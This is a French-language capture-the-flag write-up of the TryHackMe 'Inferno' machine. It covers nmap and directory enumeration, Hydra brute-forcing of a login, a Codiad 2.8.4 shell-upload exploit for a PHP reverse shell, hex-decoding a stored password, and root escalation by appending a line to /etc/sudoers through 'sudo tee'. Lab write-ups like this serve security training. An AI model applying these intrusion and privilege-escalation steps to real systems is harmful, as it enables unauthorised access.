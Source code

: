 # Inferno

![04838068cabd2452b322e06418cce864(1)](https://user-images.githubusercontent.com/68467919/210245790-5a331e70-3a66-4cc5-897d-8a9b5d18fc52.png)

Plateforme: **TryHackme**

Nom: Inferno

Difficulté: **Medium**

Infos: **security**, **rce**, **oscp**, **vulnhub**

---

Énumération

### Nmap

```bash
sudo nmap -sC -sV -O -oN enum/nmap -vv $ip

PORT      STATE SERVICE           REASON         VERSION
21/tcp    open  ftp?              syn-ack ttl 63
22/tcp    open  ssh               syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7ec1a7f6274da2964b3ce1ee26804f7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBR1uDh8+UHIoUl3J5AJApSgrmxFtvWtauxjTLxH9B5s9E0SThz3fljXo7uSL+2hjphfHyqrdAxoCGQJgRn/o5xGDSpoSoORBIxv1LVaZJlt/eIEhjDP48NP9l/wTRki9zZl5sNVyyyy/lobAj6BYH+dU3g++2su9Wcl0wmFChG5B2Kjrd9VSr6TC0XJpGfQxu+xJy29XtoTzKEiZCoLz3mZT7UqwsSgk38aZjEMKP9QDc0oa5v4JmKy4ikaR90CAcey9uIq8YQtSj+US7hteruG/HLo1AmOn9U3JAsVTd4vI1kp+Uu2vWLaWWjhfPqvbKEV/fravKSPd0EQJmg1eJ
|   256 de4feefa862efbbd4cdcf96773028434 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKFhVdH50NAu45yKvSeeMqyvWl1aCZ1wyrHw2MzGY5DVosjZf/rUzrdDRS0u9QoIO4MpQAvEi7w7YG7zajosRN8=
|   256 e26d8de1a8d0bd97cb9abc03c3f8d885 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAdzynTIlsSkYKaqfCAdSx5J2nfdoWFw1FcpKFIF8LRv
23/tcp    open  telnet?           syn-ack ttl 63
25/tcp    open  smtp?             syn-ack ttl 63
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http              syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Dante's Inferno
88/tcp    open  kerberos-sec?     syn-ack ttl 63
106/tcp   open  pop3pw?           syn-ack ttl 63
110/tcp   open  pop3?             syn-ack ttl 63
389/tcp   open  ldap?             syn-ack ttl 63
443/tcp   open  https?            syn-ack ttl 63
464/tcp   open  kpasswd5?         syn-ack ttl 63
636/tcp   open  ldapssl?          syn-ack ttl 63
777/tcp   open  multiling-http?   syn-ack ttl 63
783/tcp   open  spamassassin?     syn-ack ttl 63
808/tcp   open  ccproxy-http?     syn-ack ttl 63
873/tcp   open  rsync?            syn-ack ttl 63
1001/tcp  open  webpush?          syn-ack ttl 63
1236/tcp  open  bvcontrol?        syn-ack ttl 63
1300/tcp  open  h323hostcallsc?   syn-ack ttl 63
2000/tcp  open  cisco-sccp?       syn-ack ttl 63
2003/tcp  open  finger?           syn-ack ttl 63
2121/tcp  open  ccproxy-ftp?      syn-ack ttl 63
2601/tcp  open  zebra?            syn-ack ttl 63
2602/tcp  open  ripd?             syn-ack ttl 63
2604/tcp  open  ospfd?            syn-ack ttl 63
2605/tcp  open  bgpd?             syn-ack ttl 63
2607/tcp  open  connection?       syn-ack ttl 63
2608/tcp  open  wag-service?      syn-ack ttl 63
4224/tcp  open  xtell?            syn-ack ttl 63
5051/tcp  open  ida-agent?        syn-ack ttl 63
5432/tcp  open  postgresql?       syn-ack ttl 63
5555/tcp  open  freeciv?          syn-ack ttl 63
5666/tcp  open  nrpe?             syn-ack ttl 63
6346/tcp  open  gnutella?         syn-ack ttl 63
6566/tcp  open  sane-port?        syn-ack ttl 63
6667/tcp  open  irc?              syn-ack ttl 63
|_irc-info: Unable to open connection
8021/tcp  open  ftp-proxy?        syn-ack ttl 63
8081/tcp  open  blackice-icecap?  syn-ack ttl 63
|_mcafee-epo-agent: ePO Agent not found
8088/tcp  open  radan-http?       syn-ack ttl 63
9418/tcp  open  git?              syn-ack ttl 63
10000/tcp open  snet-sensor-mgmt? syn-ack ttl 63
10082/tcp open  amandaidx?        syn-ack ttl 63
```

### Feroxbuster

```python
feroxbuster -u http://10.10.30.189/ -w ~/SecLists/Discovery/Web-Content/raft-medium-words.txt -o enum/feroxbuster -W 28

200      GET       36l       82w      638c http://10.10.30.189/
401      GET       14l       54w      459c http://10.10.30.189/inferno
403      GET        9l       28w      277c http://10.10.30.189/server-status
```

## Port 80 | HTTP

![Untitled](https://user-images.githubusercontent.com/68467919/210245602-6bd805a2-f5ce-4741-b302-86bb3d33fdb6.png)

### /inferno

Quand nous voulons accéder au répertoire /inferno, nous remarquons que nous devons nous authentifier pour pouvoir accéder à la page. Pour cela, nous pourrions tenter de bruteforce la page d’authentification à l’aide d’Hydra.

![Untitled 1](https://user-images.githubusercontent.com/68467919/210245632-dcbbc020-2f26-4527-b603-0f63333b4291.png)

Nous trouvons le mot de passe en quelques minutes. Désormais, nous pouvons utiliser ces logs pour pouvoir nous connecter. 

![Untitled 2](https://user-images.githubusercontent.com/68467919/210245640-cb914972-1e28-44d9-85a1-1166c861468e.png)

En utilisant les mêmes logs trouvés plus haut, nous accédons à un IDE appelé Codiad nous permettant de pouvoir gérer, voir les fichiers et pouvoir également les updates en temps réel sur le serveur web.

Nous nous retrouvons donc sur cette page : 

![Untitled 3](https://user-images.githubusercontent.com/68467919/210245650-e81bbd19-5f5a-4443-a80c-f94ce7e8d034.png)

Nous voulons obtenir un reverse-shell mais en updatant des fichiers déjà existant ou bien en les uploadant à la racine, il est impossible de faire quoi que ce soit. En cherchant sur internet, voici ce que j’ai pu trouver : 

[Codiad 2.8.4 Shell Upload](https://packetstormsecurity.com/files/164735/Codiad-2.8.4-Shell-Upload.html)

Je suis donc allé dans ce répertoire pour pouvoir upload un reverse-shell en php.

```python
/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/
```

Après avoir upload mon reverse-shell et accédé au répertoire INF, je réussis à me connecter à la machine.

![Untitled 4](https://user-images.githubusercontent.com/68467919/210245665-5987284f-e6b3-4424-aa51-7014b929cf0e.png)

## Dante | local.txt

Après avoir obtenu un reverse-shell et en regardant dans /etc/passwd, nous pouvons remarquer qu’un utilisateur du nom de dante est présent. En énumérant un peu ses fichiers en faisant la commande

```python
ls -la -R /home/dante/ #permet d'énumérer les fichiers récursivement et de voir les droits, owners des différents fichiers
```

Nous pouvons remarquer un fichier du nom de *.download.dat*

![Untitled 5](https://user-images.githubusercontent.com/68467919/210245671-7b9e624f-a6e1-4bf7-97a0-9104b019c851.png)

En le téléchargeant sur ma machine nous pouvons remarquer à l’aide de la commande *file* que le contenu du fichier est en ASCII. En exécutant la commande 

```python
cat .download.dat | xxd -r -p 
```

Nous pouvons retrouver le contenu du fichier qui contient le mot de passe de notre utilisateur *dante*.

![Untitled 6](https://user-images.githubusercontent.com/68467919/210245680-a4727906-177d-4be9-a4f1-c8f6a148c0e1.png)

Nous pouvons trouver le contenu du premier flag dans /home/dante/*local.txt*

## Root | proof.txt

En énumérant les droits de l’utilisateur **dante**, nous pouvons également remarquer qu’il a le droit d’utiliser la commande **tee** en tant que **root**.

J’ai donc pensé à modifier le fichier */etc/sudoers* pour nous attribuer tous les droits en tant que root.

```python
LFILE=/etc/sudoers
echo "dante ALL=(ALL) ALL" | sudo tee -a "$LFILE"
```

![Untitled 7](https://user-images.githubusercontent.com/68467919/210245690-58a30196-01bf-40b4-b364-92ca14bf2db5.png)

ROOTED !!
